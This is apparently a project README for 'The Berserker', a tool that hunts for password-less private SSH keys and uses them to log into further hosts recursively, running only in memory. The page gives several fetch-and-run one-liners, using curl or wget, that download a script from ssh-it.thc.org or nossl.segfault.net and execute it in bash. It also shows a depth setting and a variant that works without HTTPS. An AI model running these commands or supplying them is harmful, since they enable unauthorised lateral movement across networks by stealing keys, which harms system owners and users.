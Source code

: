 ```yaml
---
layout: default
---
```

{:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef}

The Berserker looks for password-less ssh-keys (such as ```~/.ssh/id_rsa```) and then attempts to log in to as many hosts as possible. It repeats its action *recursively*. All this without writing or installing any data on any host. It's in-memory execution only.

Use either one of these commands to start The Berserker:
```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "$BS"
```
```shell
export BS="$(wget -O- ssh-it.thc.org/bs)" && bash -c "$BS"
```

{:refdef: style="text-align: center;"}
![Berserker-Example](berserker-example.png)
{: refdef}

Read [how it works](how-it-works/) and [design choices](how-it-works/) we made.

### Tips & Tricks

* Press ```CTRL-C``` to interrupted the Berserker at any time.
* No data is stored on the origin host or any target host.
* A typical run completes within a few seconds.

The default is to stop after a depth of 8. Changing this to ```BS_DEPTH=1``` will make The Berserker to log into the next host but not any farther.
```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEPTH=1 $BS"
```

### When HTTPS is not available
```shell
# Without HTTPS 
export BS="$(wget -O- --no-hsts http://nossl.segfault.net/bs)" && \
bash -c "$BS"
```

### Alpha Testing
THIS IS ALPHA RELEASE. PLEASE TEST AND REPORT BACK ANY BUGS OR SUGGESTIONS.
Many Thanks to:
* #!adm for testing and comments

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


